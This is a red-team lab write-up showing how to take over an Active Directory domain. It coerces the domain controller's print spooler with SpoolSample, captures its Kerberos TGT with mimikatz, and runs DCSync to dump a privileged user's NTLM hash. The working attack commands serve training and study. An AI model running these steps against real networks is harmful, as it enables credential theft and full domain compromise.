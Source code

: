 ```yaml
---
layout: post
title: "domain compromise via dc print server and kerberos delegation"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


# Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller (or any other host to be fair) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled.&#x20;
  * This is done via RPC API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md)

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled (attacker, server)
* dc01 - domain controller running a print service (victim, target)

We can check if a spool service is running on a remote host like so:

```
ls \\dc01\pipe\spoolss
```

![](<../../.gitbook/assets/image (503).png>)

If the spoolss was not running, we would receive an error.

Another way to check if the spoolss is running on a remote machine is:

![](<../../.gitbook/assets/image (504).png>)

Now, after compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin\_), we execute it with two arguments `target` and `server` (DC with spoolss running on it):

```csharp
.\SpoolSample.exe dc01 ws01
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-32-34.png>)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-33-49.png>)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](<../../.gitbook/assets/Screenshot from 2018-10-31 23-43-32.png>)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved -  get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}
@spotheplanet
